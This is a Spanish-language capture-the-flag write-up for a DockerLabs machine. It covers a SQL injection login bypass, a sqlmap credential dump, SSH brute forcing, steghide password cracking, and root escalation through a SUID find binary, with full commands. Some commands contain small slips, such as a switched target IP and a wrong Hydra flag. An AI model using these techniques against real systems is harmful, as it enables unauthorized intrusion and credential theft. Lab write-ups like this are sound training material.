






# 🧠 Informe de Pentesting – Máquina: Mirame

### 💡 Dificultad: Fácil

### 🧩 Plataforma: DockerLabs

---


---

# ⚙️ Despliegue de la máquina

Para iniciar el laboratorio, primero se descomprimió el archivo proporcionado y posteriormente se desplegó el contenedor Docker mediante el script entregado por la plataforma.

```bash
unzip backend.zip
sudo bash auto_deploy.sh mirame.tar
```


Una vez desplegada la máquina, se verificó la conectividad con el objetivo utilizando `ping` para comprobar que el host estuviera accesible dentro de la red local del laboratorio.

```bash
ping -c4 172.17.0.3
```


---

# 🔍 Enumeración de Puertos

El siguiente paso consistió en realizar un escaneo completo de puertos con `Nmap` para identificar los servicios expuestos por la máquina objetivo.

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3
```

El análisis permitió identificar dos puertos abiertos:

* **22/tcp → SSH**
* **80/tcp → HTTP**

Posteriormente, se ejecutó un escaneo más detallado para identificar versiones de servicios y posibles configuraciones inseguras.

```bash
sudo nmap -sCV -p22,80 172.17.0.3
```


---

# 🌐 Análisis del Servicio Web

Debido a que el puerto 80 se encontraba abierto, se accedió desde el navegador al servicio web alojado en la máquina víctima.


La aplicación mostraba un formulario de autenticación. Inicialmente se probaron credenciales por defecto sin obtener acceso. Posteriormente, se realizaron pruebas básicas de inyección SQL sobre el formulario de login.

La siguiente carga permitió bypassar el sistema de autenticación:

```bash
admin' OR '1'='1' -- -
```


Además, al introducir únicamente una comilla simple (`'`), el servidor devolvía un error de base de datos, lo que evidenciaba claramente que el formulario era vulnerable a **SQL Injection**.

---

# 🛠️ Explotación con SQLMap

Con el objetivo de automatizar la explotación de la vulnerabilidad, se interceptó la petición HTTP mediante Burp Suite y se guardó en un archivo denominado `petici.req`.

Posteriormente se utilizó `sqlmap` para explotar la vulnerabilidad y extraer el contenido de la base de datos.

```bash
sqlmap -r petici.req --level=5 --risk=3 --dump
```


Al finalizar el proceso, `sqlmap` logró extraer múltiples registros con usuarios y contraseñas almacenadas en la base de datos.

---

# 📂 Fuzzing de Directorios

Posteriormente se realizó una enumeración de directorios y archivos utilizando `Gobuster` con el objetivo de identificar rutas ocultas o recursos sensibles.

Inicialmente no se encontraron vectores relevantes.



Las credenciales extraídas previamente fueron almacenadas en archivos `.txt` para realizar ataques de fuerza bruta sobre el servicio SSH utilizando `Hydra`.

```bash
hydra -L user.txt -p password.txt ssh://172.17.0.2
```

Sin embargo, no se obtuvo acceso exitoso mediante esta técnica.

---

# 🔎 Descubrimiento de Directorio Oculto

A continuación, se reutilizó el diccionario de contraseñas durante un nuevo proceso de fuzzing, esta vez incluyendo extensiones sensibles.

```bash
gobuster dir -u http://172.17.0.2/ -w password.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 329
```



El escaneo permitió descubrir el directorio oculto:

```bash
http://172.17.0.2/directoriotravieso/
```

Dentro de dicho directorio se encontraba una imagen aparentemente inofensiva.

Para analizarla localmente, se descargó utilizando `wget`.

```bash
wget http://172.17.0.2/directoriotravieso/miramebien.jpg
```



---

# 🖼️ Análisis Esteganográfico

El nombre del archivo sugería la posible presencia de información oculta mediante técnicas de esteganografía.

## 1️⃣ Inspección Inicial de Metadatos

En primer lugar, se analizaron los metadatos de la imagen utilizando `ExifTool`.

```bash
exiftool miramebien.jpg
```

El resultado confirmó que el archivo era una imagen JPEG válida de aproximadamente 6.3 kB. No se encontraron comentarios ni metadatos relevantes; sin embargo, debido al contexto del laboratorio, se sospechó la existencia de información oculta mediante esteganografía.

---

## 2️⃣ Fuerza Bruta sobre Steghide

Al intentar extraer contenido oculto con `steghide`, la herramienta solicitó una contraseña. Para descubrirla, se utilizó `Stegseek`, una herramienta especializada en ataques rápidos contra archivos protegidos con `steghide`.

```bash
stegseek miramebien.jpg /usr/share/wordlists/rockyou.txt
```



El ataque tuvo éxito y reveló que la contraseña utilizada era:

```bash
chocolate
```

Asimismo, la herramienta indicó que dentro de la imagen existía un archivo oculto llamado `ocultito.zip`.

---

## 3️⃣ Extracción del Archivo Oculto

Con la contraseña obtenida, se procedió a extraer el contenido oculto de la imagen.

```bash
steghide extract -sf miramebien.jpg
```



Tras introducir la contraseña `chocolate`, se generó correctamente el archivo comprimido `ocultito.zip`.

---

## 4️⃣ Obtención de Credenciales

Finalmente, se inspeccionaron los archivos obtenidos y se extrajo el contenido del archivo ZIP.

```bash
ls -la
unzip ocultito.zip
```

Dentro del archivo comprimido se encontró un archivo de texto que contenía credenciales válidas para el servicio SSH:

```bash
carlos:carlitos
```

Con estas credenciales fue posible acceder al sistema.

---

# 🔐 Escalada de Privilegios

Una vez dentro de la máquina como el usuario `carlos`, se inició la fase de enumeración local en busca de configuraciones inseguras.

## 1️⃣ Búsqueda de Binarios SUID

Se ejecutó el siguiente comando para localizar binarios con permisos SUID activos:

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

El análisis reveló que el binario `/usr/bin/find` poseía el bit SUID habilitado.

```bash
-rwsrwxrwx
```

La presencia de la letra `s` en los permisos indicaba que cualquier usuario podía ejecutar dicho binario con privilegios del propietario, en este caso `root`.

---

## 2️⃣ Identificación de la Vulnerabilidad

El binario `find` permite ejecutar comandos mediante el parámetro `-exec`. Debido a que el programa tenía el bit SUID activado, cualquier comando ejecutado desde `find` heredaría privilegios de `root`.

Esto representaba una grave mala configuración del sistema.

---

## 3️⃣ Explotación y Obtención de Root

Finalmente, se explotó el binario vulnerable ejecutando una shell privilegiada:

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

### Explicación del comando

* `find .` → Ejecuta `find` en el directorio actual.
* `-exec /bin/bash -p \;` → Lanza una shell Bash preservando privilegios elevados.
* `-quit` → Finaliza inmediatamente la ejecución tras abrir la shell.

Gracias al parámetro `-p`, Bash mantuvo los privilegios de `root` en lugar de descartarlos por seguridad.

Como resultado, se obtuvo acceso completo al sistema.



---
